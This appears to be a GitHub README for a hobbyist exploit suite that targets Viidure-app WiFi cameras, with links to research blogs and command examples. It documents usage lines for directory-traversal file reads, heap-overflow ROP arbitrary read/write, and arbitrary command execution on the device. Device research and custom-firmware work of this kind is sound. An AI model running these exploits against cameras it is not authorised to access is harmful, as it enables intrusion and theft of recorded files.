

<p align="center">

  

</p>

This is a suite of tools/exploits that can be used with cameras that use the Viidure application with the WiFi hotspot enabled. This could be used to flash alternative firmwares.

**Note:** Any memory corruption exploit will only work if your cameras software version is `CS09-V213-20240327` - these exploits rely on fixed offsets, which change every time the firmware is built.

## Blogs

[[0] Teardown + Enumeration](https://luke-m.xyz/body_cam/p1.md)

[[1] Finding Bugs/Primitives in HTTP Handlers](https://luke-m.xyz/body_cam/p2.md)

[[2] Exploiting a Heap Overflow with a 4-Byte Decrement](https://luke-m.xyz/body_cam/p3.md)

[[3] Bigger and Better ROP-Chains + Shellcode](https://luke-m.xyz/body_cam/p4.md)

[[4] Gotta Catch 'Em All!](https://luke-m.xyz/body_cam/p5.md)

## Functionality

### `get_media_info`

Performs a HTTP GET request to `/app/getmediainfo`, which returns RTSP info.

```
python3 action_cam_hacking.py get_media_info
```

#### Example Response

```
{
    "info": {
        "port": 5000,
        "rtsp": "rtsp://192.168.169.1",
        "transport": "tcp"
    },
    "result": 0
}
```

### `get_device_attr`

Performs a HTTP GET request to `/app/getdeviceattr`, which returns device info/version info.

```
python3 action_cam_hacking.py get_device_attr
```

#### Example Response

```
{
    "info": {
        "bssid": "46e1",
        "camnum": 1,
        "curcamid": 0,
        "hwver": "CS09-V213-20240327",
        "softver": "CS09-V213-20240327",
        "ssid": "CS09-46e1",
        "uuid": "46e1"
    },
    "result": 0
}
```

### `get_sd_info`

Performs a HTTP GET request to `/app/getsdinfo`, which returns memory properties of the SD card.

```
python3 action_cam_hacking.py get_sd_info
```

#### Example Response

```
{
    "info": {
        "free": 3582,
        "status": 0,
        "total": 3720
    },
    "result": 0
}
```

### `get_product_info`

Performs a HTTP GET request to `/app/getproductinfo`, which returns manufacturer and hardware info.

```
python3 action_cam_hacking.py get_product_info
```

#### Example Response

```
{
    "info": {
        "company": "AI",
        "model": "recorder",
        "soc": "eeasytech",
        "sp": "LINGTUO"
    },
    "result": 0
}
```

### `get_battery_info`

Performs a HTTP GET request to `/app/getbatteryinfo`, which returns battery charge/capacity information.

```
python3 action_cam_hacking.py get_battery_info
```

#### Example Response

```
{
    "info": {
        "capacity": 132,
        "charge": 0
    },
    "result": 0
}
```

### `get_rec_duration`

Performs a HTTP GET request to `/app/getrecduration`, which returns battery charge/capacity information.

```
python3 action_cam_hacking.py get_rec_duration
```
#### Example Response

```
{
    "info": {
        "duration": 0
    },
    "result": 0
}
```

### `get_param`

Performs a HTTP GET request to `/app/getparamvalue`, which returns the value of the specified parameter.

```
python3 action_cam_hacking.py get_param language
```

### `set_param`

Performs a HTTP GET request to `/app/setparamvalue`, which sets the specified parameter to be the specified value.

```
python3 action_cam_hacking.py set_param language 4
```

### `file_read`

Uses a directory traversal in `/app/getthumbnail` to fetch arbitrary files from the device.

```
python3 action_cam_hacking.py file_read /app/car_recorder.app
```

### `file_write_on_sd`

Uses the `/upload` endpoint to upload specified file to `/mnt/sdcard`.

```
python3 action_cam_hacking.py file_write test.bin
```

### `arb_read`

Exploits heap overflow in `/mnt` handler to execute a ROP-chain to read specified address (`setparamvalue` used to get address in, `getparamvalue` used to get result out).

```
python3 action_cam_hacking.py arb_read 0xc0008000
```

### `arb_write`

Exploits heap overflow in `/mnt` handler to execute a ROP-chain to write specified value into specified address (`setparamvalue` used to get address and value in).

```
python3 action_cam_hacking.py arb_write c0a2fae0 12345678
```

*Note:* above will write 0x12345678, value is hexadecimal.

### `arb_write_safe`

Same as above, but uses a slightly different method to exploit the heap overflow (named safe as I thought this approach would be more reliable, turns out that isn't the case :( )

```
python3 action_cam_hacking.py arb_write_safe c0a2fae0 12345678
```

### `arb_code_exec`

Executes arbitrary code on the device, following payloads are available:
- *cpuid* : Prints the contents of the MIDR register on the CPU (used to identify what ARM CPU it actually was)
- *cmd* : Executes the specified command (useful as don't need UART access to run commands)

```
python3 action_cam_hacking.py arb_code_exec cpuid
python3 action_cam_hacking.py arb_code_exec cmd "echo hello"
```

### `arb_code_exec_thread`

Same as above, but payloads are run in a separate thread, the following are available:
- *cpuid* : Same as above, was done as a test 
- *gameboy* : Runs a given original Gameboy game on the device. For this to work, you need to do the following:
    - Install *clang*
    - Navigate into the `gameboy_runner_payload` directory
    - Run `make && cp payload.bin ../payload.bin`
    - Navigate into the `gameboy_app` directory
    - Run `make && cp gameboy.app ../gameboy.app`
    - Should now have `payload.bin` and `gameboy.app` in the root of the repo

```
python3 action_cam_hacking.py arb_code_exec_thread cpuid
python3 action_cam_hacking.py arb_code_exec_thread gameboy tetris.gb
```

